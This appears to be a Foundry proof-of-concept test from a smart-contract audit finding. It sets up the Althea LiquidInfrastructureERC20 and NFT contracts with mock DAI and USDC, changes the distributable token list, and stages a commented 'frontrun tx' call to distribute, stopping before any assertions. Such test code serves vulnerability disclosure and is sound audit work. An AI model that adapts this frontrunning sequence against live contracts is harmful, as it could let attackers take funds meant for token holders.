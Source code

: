 ```solidity


import {Test, console2} from "forge-std/Test.sol";
import {LiquidInfrastructureERC20} from "../contracts/LiquidInfrastructureERC20.sol";
import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";


contract AltheaTest is Test {
    function setUp() public {}


    function test_POC() public {
        // setup
        LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("LP");
        address[] memory newErc20s = new address[](1);
        uint256[] memory newAmounts = new uint[](1);
       
        ERC20 DAI = new ERC20("DAI", "DAI");
        ERC20 USDC = new ERC20("USDC", "USDC");


        string memory _name = "LP";
        string memory _symbol = "LP";
        uint256 _minDistributionPeriod = 5;
        address[] memory _managedNFTs = new address[](1);
        address[] memory _approvedHolders = new address[](2);
        address[] memory _distributableErc20s = new address[](1);


        _managedNFTs[0] = address(nft);
        _approvedHolders[0] = address(1);
        _approvedHolders[1] = address(2);
        _distributableErc20s[0] = address(DAI);


        newErc20s[0] = address(DAI);
        nft.setThresholds(newErc20s, newAmounts);
        LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
            _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
        erc.mint(address(1), 100e18);
        erc.mint(address(2), 100e18);


        // issue ==  change in desirable erc20s
        _distributableErc20s = new address[](2);
        _distributableErc20s[0] = address(DAI);
        _distributableErc20s[1] = address(USDC);
        newAmounts = new uint[](2);
        newErc20s = new address[](2);
        newErc20s[0] = address(DAI);
        newErc20s[1] = address(USDC);
        nft.setThresholds(newErc20s, newAmounts);


        deal(address(DAI), address(erc), 1000e18);
        deal(address(USDC), address(erc), 1000e18);
        vm.roll(block.number + 100);


        // frontrun tx
        erc.distribute(1);
```